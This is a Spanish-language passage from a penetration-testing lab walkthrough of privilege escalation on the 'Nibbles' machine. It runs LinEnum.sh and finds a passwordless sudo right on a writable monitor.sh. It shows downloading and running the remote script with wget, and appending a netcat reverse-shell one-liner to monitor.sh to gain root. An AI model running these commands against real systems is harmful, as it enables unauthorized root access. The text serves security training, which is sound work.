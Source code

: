 # Nibbles - Privilege Escalation

Ahora que tenemos una conexión de shell inverso, es momento de escalar privilegios. Podemos descomprimir el archivo `personal.zip` y ver un archivo llamado `monitor.sh`.


`nibbler@Nibbles:/home/nibbler$ unzip personal.zip  Archive:  personal.zip    creating: personal/    creating: personal/stuff/   inflating: personal/stuff/monitor.sh` 

El script `monitor.sh` es un script de monitoreo, y está bajo la propiedad de nuestro usuario `nibbler` y es editable.


`nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh  ####################################################################################################  #                                        Tecmint_monitor.sh                                        #  # Escrito para Tecmint.com para el artículo www.tecmint.com/linux-server-health-monitoring-script/ #  # Si encuentras algún error, repórtalo en el enlace de abajo.                                      #  # Uso libre/edición/distribución del código abajo, dando el crédito adecuado a Tecmint.com y el autor #  ####################################################################################################  #! /bin/bash  # unset cualquier variable que el sistema pueda estar usando  # limpiar la pantalla  clear  unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage  while getopts iv name do        case $name in          i)iopt=1;;          v)vopt=1;;          *)echo "Invalid arg";;        esac done  <SNIP>`

Pongamos esto a un lado por ahora y usemos `LinEnum.sh` para realizar algunas verificaciones automáticas de escalación de privilegios. Primero, descarga el script a tu VM de ataque o a la Pwnbox y luego inicia un servidor HTTP de Python usando el comando `sudo python3 -m http.server 8080`.


`pista95@htb[/htb]$ sudo python3 -m http.server 8080 [sudo] password for ben: ***********  Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ... 10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -`

En el objetivo, escribe `wget http://<tu ip>:8080/LinEnum.sh` para descargar el script. Si es exitoso, veremos una respuesta 200 en nuestro servidor HTTP de Python. Una vez descargado el script, escribe `chmod +x LinEnum.sh` para hacerlo ejecutable y luego `./LinEnum.sh` para ejecutarlo. Vemos muchos resultados interesantes, pero lo que más llama la atención son los privilegios `sudo`.


`[+] ¡Podemos usar sudo sin proporcionar una contraseña! Matching Defaults entries for nibbler on Nibbles:     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  User nibbler may run the following commands on Nibbles:     (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh`

¡Posible escalación con sudo! El usuario `nibbler` puede ejecutar el archivo `/home/nibbler/personal/stuff/monitor.sh` con privilegios de root. Como tenemos control total sobre ese archivo, si añadimos una línea de código para un shell inverso al final del archivo y lo ejecutamos con `sudo`, deberíamos obtener un shell inverso como usuario root. Editemos el archivo `monitor.sh` para añadir un shell inverso.

`nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh`

Si hacemos `cat` al archivo `monitor.sh`, veremos el contenido añadido al final. Es crucial que, si alguna vez nos encontramos en una situación donde podemos aprovechar un archivo editable para escalar privilegios, solo añadamos al final (después de hacer una copia de seguridad) para evitar sobrescribir el archivo y causar interrupciones. Ejecuta el script con `sudo`:
